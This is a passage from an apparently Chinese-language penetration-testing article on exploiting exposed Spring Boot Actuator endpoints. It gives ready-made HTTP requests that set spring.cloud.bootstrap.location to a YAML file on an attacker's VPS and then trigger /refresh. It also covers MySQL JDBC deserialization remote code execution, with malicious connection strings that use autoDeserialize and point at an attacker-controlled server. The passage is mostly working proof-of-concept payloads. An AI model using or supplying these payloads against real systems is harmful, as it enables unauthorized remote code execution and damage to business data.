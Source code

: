 2、设置spring.cloud.bootstrap.location 属性  
  
构造poc如下，分为spring1.x 和 spring2.x  
```
//spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://vps:port/exp.yml

//spring 2.x
POST /actuator/env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://vps:port/exp.yml
```  
  
3、 刷新配置refresh  
  
poc如下  
```
//spring 1.x
POST /refresh
Content-Type: application/x-www-form-urlencoded

//spring 2.x
POST /actuator/refresh
Content-Type: application/x-www-form-urlencoded
```  
# springboot mysql jdbc deserialization 远程代码执行  
  
简述：Java Database Connectivity (JDBC) 是Java中用于连接和执行数据库操作的API。它提供了一组标准接口，使开发人员能够使用Java代码与各种关系数据库进行交互。  
  
利用条件：访问/env 或 /actutar/env接口查询是否存在mysql-connector-java 依赖  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlvS1Y0wKVUlweEZo5j8FmyhwTdeOdEQUibQK4hqSKIyLw0N39TjU6sibw/640?wx_fmt=png&from=appmsg "null")  
  
进一步观察是否存在常见的反序列化gadget依赖，如 commons- collections、Jdk7u21、Jdk8u20等，观察版本并记录，搜索关键词spring.datasource.url，记录value值(方便恢复)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlqSiaqGBoGWaYcRYzMACA2fhiakQgoF5ibQtr7Vjh2RDQ0YdeHSoB2GayQ/640?wx_fmt=png&from=appmsg "null")  
  
漏洞利用：根据属性条件进行修改调用mysql jdbc，判断具体情况利用，未授权可能影响业务数据，流程如下不同版本mysql-connector-java 5.x 和 mysql-connector-java 8.x，poc如下  
```
//mysql-connector-java 5.x
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true

//mysql-connector-java 8.x
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```  
  